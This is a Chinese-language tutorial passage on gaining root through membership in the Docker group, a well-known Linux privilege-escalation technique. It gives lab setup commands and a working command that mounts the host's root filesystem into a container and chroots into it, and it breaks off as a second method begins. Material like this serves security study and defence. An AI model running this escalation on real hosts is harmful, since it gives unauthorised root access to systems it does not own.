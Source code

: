 ```yaml
---
title: Docker 用户组提权
---
```


<center><h1>Docker 用户组提权</h1><h2>本文作者：一生热爱</h2><br><br></center>

---

## 一、简介

Docker 运行的所有命令都是需要 sudo 来运行，那是因为 docker 需要 root 权限才能跑。

Docker 监护进程有一个特性，它能被允许访问 root 用户或者是在 docker 组里面的所有用户，这就如同拥有 root 的访问权限。

## 二、复现

如果一个服务器有一个普通的用户，并且这个用户加入了 docker 组，则这个用户已经是 root 了。

### 1、方法一

#### 环境搭建

```bash
adduser test-d
usermod -G docker test-d
newgrp docker
```

<img width="800" src="/img/Snipaste_2022-07-07_21-05-45.png"><br>

Docker 组内用户执行命令的时候会自动在所有命令前添加 sudo

因为设计或者其他的原因，Docker 给予所有 docker 组的用户相当大的权力（虽然权力只体现在能访问 /var/run/docker.sock 上面）

#### 复现

默认情况下，Docker 软件包是会默认添加一个 docker 用户组的。

Docker 守护进程会允许 root 用户和 docker组用户访问 Docker，给用户提供 Docker 权限和给用户无需认证便可以随便获取的 root 权限差别不大。

```bash
docker run -v /:/hostOS -i -t chrisfosterelli/rootplease
```

<img width="800" src="/img/Snipaste_2022-07-07_21-06-19.png"><br>

参数 -v 将容器外部的目录 / 挂载到容器内部 /hostOS

这个容器的启动脚本是 exploit.sh，主要内容是：chroot 到容器的 /hostOS （也就是宿主机的 /），然后获取到宿主机的 root 权限。

### 2、方法二

#### 环境搭建
